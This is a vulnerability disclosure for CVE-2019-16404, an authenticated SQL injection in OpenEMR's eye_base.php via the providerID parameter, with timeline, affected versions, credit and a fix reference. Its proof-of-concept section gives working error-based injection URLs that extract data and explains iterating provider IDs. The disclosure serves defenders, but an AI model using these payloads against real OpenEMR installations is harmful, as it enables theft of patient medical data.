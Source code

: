 # CVE-2019-16404
Authenticated SQL Injection in `interface/forms/eye_mag/js/eye_base.php`
in OpenEMR before 5.0.2.1 allows a user to extract arbitrary data from
the openemr database via a non-parameterized INSERT INTO statement,
as demonstrated by the `providerID` parameter.

## Timeline
* **Discovered:** September 16, 2019
* **Pull Request Issued:** September 16, 2019
* **Reported:** September 16, 2019
* **OpenEMR merged pull Request:** September 17, 2019
* **CVE ID issued:** September 17,  2019
* **OpenEMR Release:** October 10, 2019 (5.0.2.1)

## Version Details
**Fixed-In Version:** 5.0.2.1

**Affected Versions:**
* 5.0.1
* 5.0.1.1
* 5.0.1.2
* 5.0.1.3
* 5.0.1.4
* 5.0.1.5
* 5.0.1.6
* 5.0.1.7
* 5.0.2

## Credit
Will Porter, Lodestone Security (https://www.lodestonesecurity.com/)

## References
[Pull Request](https://github.com/openemr/openemr/pull/2676)

## POC Exploit
If the OpenEMR instance was running on localhost port 80, the following URL could be used to exploit the vulnerability, executing the payload "version()".

```
http://localhost/openemr/interface/forms/eye_mag/js/eye_base.php?providerID=1%27,%274%27,%27title%27,%27notes%27,%275%27,%276%27%20and%20updatexml(0,concat(0x7e,%20(version())),0)),(%271
```

Note that this would require there to be no existing providerID 1 present in the database. After retrieving the cell of data, the next cell retrieved would have to use a new provider id, since this also has the affect of adding data with the provderID. So the next request would have to use:

```
http://localhost/openemr/interface/forms/eye_mag/js/eye_base.php?providerID=2%27,%274%27,%27title%27,%27notes%27,%275%27,%276%27%20and%20updatexml(0,concat(0x7e,%20(version())),0)),(%271
```

and so on and so forth.
